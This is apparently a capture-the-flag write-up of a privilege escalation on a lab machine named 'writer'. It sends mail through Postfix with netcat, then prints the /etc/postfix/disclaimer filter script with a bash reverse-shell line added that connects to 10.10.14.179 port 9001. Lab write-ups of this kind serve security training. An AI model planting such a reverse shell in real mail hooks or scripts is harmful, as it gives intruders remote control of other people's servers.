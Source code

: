 # Postfix

Port 25 is open and running Postfix.

We can nc 127.0.0.1 25

```bash
kyle@writer:~$ nc localhost 25
220 writer.htb ESMTP Postfix (Ubuntu)
MAIL FROM:kyle@writer.htb
250 2.1.0 Ok
RCPT TO:root@writer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Get pwned
.
250 2.0.0 Ok: queued as EA2AB7E8
```


When sending, /etc/postfix/disclaimer is triggered.

So we can edit the script and add a shell command and listen on 9001 to get shell as John


# Disclaimer

/etc/postfix/disclaimer runs when 

```bash
#!/bin/sh
# Localize these.
bash -c 'bash -i >& /dev/tcp/10.10.14.179/9001 0>&1'
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```